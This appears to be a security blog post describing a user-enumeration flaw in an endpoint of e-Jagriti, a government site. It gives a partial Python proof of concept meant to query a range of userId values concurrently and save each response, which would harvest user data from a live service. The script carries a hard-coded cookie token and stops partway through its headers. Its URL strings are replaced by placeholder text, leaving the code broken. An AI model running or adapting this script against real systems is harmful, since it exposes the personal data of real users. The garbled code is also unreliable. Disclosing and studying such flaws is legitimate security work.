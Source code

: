User enumeration is a security vulnerability that enables an attacker to determine whether a specific username or user ID exists within a system. This is typically achieved by analyzing variations in server responses when querying different user identifiers. For example, a system might return user data or a specific error for an existing user, while providing a different error (e.g., “User not found”) for a non-existent user. According to resources like the [Rapid7 Blog](https://www.rapid7.com/blog/post/2017/06/15/about-user-enumeration/), this discrepancy allows attackers to compile a list of valid users, which can be used for subsequent attacks such as brute-force password attempts or targeted phishing campaigns. The [OWASP Foundation](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/03-Identity_Management_Testing/04-Testing_for_Account_Enumeration_and_Guessable_User_Account) identifies user enumeration as a critical component of penetration testing due to its potential to expose sensitive account information.

## The Vulnerability in e-Jagriti

The `/services/user/auth/v2/findUser` endpoint in e-Jagriti is designed to retrieve user information based on a provided `userId` in a POST request. However, this endpoint may inadvertently facilitate user enumeration. By sending requests with various `userId` values, an attacker could potentially distinguish between existing and non-existent users based on the server’s response. For instance, a valid `userId` might return user data or a specific success message, while an invalid `userId` could trigger a “user not found” or similar error. This behavior, if present, aligns with the characteristics of user enumeration vulnerabilities described by [Virtue Security](https://www.virtuesecurity.com/kb/username-enumeration/) and [Blue Goat Cyber](https://bluegoatcyber.com/blog/username-enumeration-vulnerability-explained/).

The vulnerability was explored through a PoC that systematically queries the endpoint with a range of `userId` values, saving the responses for analysis. The ability to automate such queries using concurrent threads increases the efficiency of this process, making it feasible for an attacker to enumerate users at scale.

## Proof of Concept

The following Python script demonstrates how the vulnerability can be exploited by sending POST requests to the `/services/user/auth/v2/findUser` endpoint with a range of `userId` values. The script uses concurrent threads to process multiple requests efficiently and saves each response as a JSON file named after the corresponding `userId`.

```python
import requests
import json
import os
from concurrent.futures import ThreadPoolExecutor

# Define the request details
url = "[invalid url, do not cite]
headers = {
    "Host": "e-jagriti.gov.in",
    "Cookie": "XSRF-TOKEN=NDKDdfdsfkldsfNd3SZAJfwLsTl5WUgOkE",
    "Content-Length": "18",
    "Sec-Ch-Ua-Platform": "\"macOS\"",
    "Authorization": "",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": "\"Not)A;Brand\";v=\"8\", \"Chromium\";v=\"138\"",
    "Sec-Ch-Ua-Mobile": "?0",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36",
    "Accept": "application/json",
    "Content-Type": "application/json",
    "Origin": "[invalid url, do not cite]
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "[invalid url, do not cite]
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i",
```